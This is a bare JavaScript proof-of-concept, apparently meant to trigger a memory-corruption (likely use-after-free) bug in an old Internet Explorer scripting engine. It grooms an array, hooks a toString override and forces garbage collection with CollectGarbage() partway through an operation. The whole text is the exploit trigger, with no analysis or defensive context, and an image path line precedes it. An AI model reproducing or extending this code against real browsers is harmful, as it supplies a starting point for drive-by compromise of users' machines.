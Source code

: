 

var vars = {};

function f() {
  alert('in f');
  for(var i=0; i<40000; i++) {
    vars[i] = 1;
  }
  vars.length = 0;
  CollectGarbage();
  alert(this);
}

for(var i=0; i<20000; i++) {
  vars[i] = [];
}
vars.length = [];
for(var i=20000; i<40000; i++) {
  vars[i] = [];
}

vars.length.toString = f;



alert('failed');


